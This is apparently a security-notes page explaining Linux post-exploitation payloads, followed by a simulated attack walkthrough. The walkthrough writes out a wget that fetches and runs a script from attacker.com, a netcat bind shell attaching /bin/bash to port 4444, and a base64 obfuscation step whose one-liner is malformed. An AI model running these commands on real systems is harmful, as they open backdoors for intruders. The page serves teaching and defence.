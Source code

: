 # Payloads to execute


# 👉 Overview

---

### 👀 What ?

> A Linux payload is a piece of malicious code that is executed after an initial breach into a system. This payload can perform a variety of tasks, from stealing data to creating backdoors for future access.
> 

### 🧐 Why ?

> Understanding Linux payloads is important for both hackers and security professionals. For hackers, payloads are the means to achieve their malicious objectives. For security professionals, understanding payloads can help in the timely detection and prevention of attacks.
> 

### ⛏️ How ?

> To use a Linux payload, an attacker first needs to exploit a vulnerability to breach the system. Following this, the payload can be loaded and executed. To defend against such attacks, professionals need to consistently monitor systems for vulnerabilities and keep them patched.
> 

### ⏳ When ?

> The use of Linux payloads in cybersecurity attacks has been prevalent for as long as Linux systems have been in use. Their popularity among attackers stems from the flexibility and power that Linux provides.
> 

# ⚙️ Technical Explanations

---

A Linux payload is a type of malicious code that is executed after an initial breach into a Linux system. It is often a shell script or a binary executable that can carry out a range of tasks based on its programming. These tasks could include exfiltrating data, which is the unauthorized copying or transmission of data from within a system to an external destination or recipient. Data exfiltration can happen manually by someone with physical access to the computer or remotely by a hacker.

Another common use of a Linux payload is to establish a persistent backdoor, which is a method of bypassing normal authentication or encryption in a computer, a product, or an embedded device, etc., or to remotely access software, an operating system, or a device. Once a system is compromised (i.e., a 'backdoor' is established), hackers can use the vulnerability to leave hidden software — a 'backdoor Trojan' — behind.

Moreover, Linux payloads can also be used to launch further attacks on other systems. This could involve using the compromised system as a launchpad to attack other systems within the same network or to distribute malware across the internet.

In order to avoid detection by security systems, payloads are often obfuscated or encrypted. Obfuscation involves making the code difficult to understand or interpret, while encryption involves encoding the data such that only authorized parties can access it.

Defending against such payloads necessitates a multi-layered security approach. This includes regular patching, which involves updating and fixing the system software to protect against known vulnerabilities. Rigorous monitoring of the system is also necessary to detect any unusual activity that could indicate a breach. Finally, the use of intrusion detection systems (IDS) can help to identify suspicious activity by monitoring network traffic and system logs.

Here's a simplified example of how a Linux payload might work for educational purposes. This is not a real payload, and should not be used for malicious purposes. The steps below simulate the process of a payload that creates a backdoor on a Linux system.

1. **Exploit a vulnerability**: Suppose there's a known vulnerability in a specific version of a Linux server software that allows a buffer overflow to occur. An attacker might send a crafted packet that causes the server to crash and execute a shell command. This might look like:

```bash
echo -ne "\\x90\\x90\\x90\\x90...[payload]...\\x90\\x90\\x90\\x90" | nc target.com 80

```

(`\\x90` is a NOP instruction, and `[payload]` would be replaced with the actual payload)

1. **Load and execute the payload**: The payload in this case might be a simple shell command that downloads and runs a script from the attacker's server:

```bash
wget <http://attacker.com/backdoor.sh> -O /tmp/backdoor.sh && chmod +x /tmp/backdoor.sh && /tmp/backdoor.sh

```

This command downloads a script, makes it executable, and runs it.

1. **Create a backdoor**: The `backdoor.sh` script might look like this:

```bash
#!/bin/bash
nc -lvp 4444 -e /bin/bash &> /dev/null &

```

This script starts a netcat listener on port 4444 and attaches a bash shell to it. This allows the attacker to connect to this port and execute commands.

1. **Hide the payload**: The attacker might use various obfuscation techniques to make the payload harder to spot. Obfuscation can be as simple as encoding the payload in Base64. Here's a Python one-liner that encodes the payload:

```python
echo 'payload' | python -c 'import sys; import base64; print(base64.b64encode(sys.stdin.read()))'

```

1. **Defend against the payload**: A system administrator might defend against such an attack by regularly updating the server software (to fix known vulnerabilities), monitoring network traffic (to spot suspicious connections), and using an intrusion detection system (to identify known attack patterns).
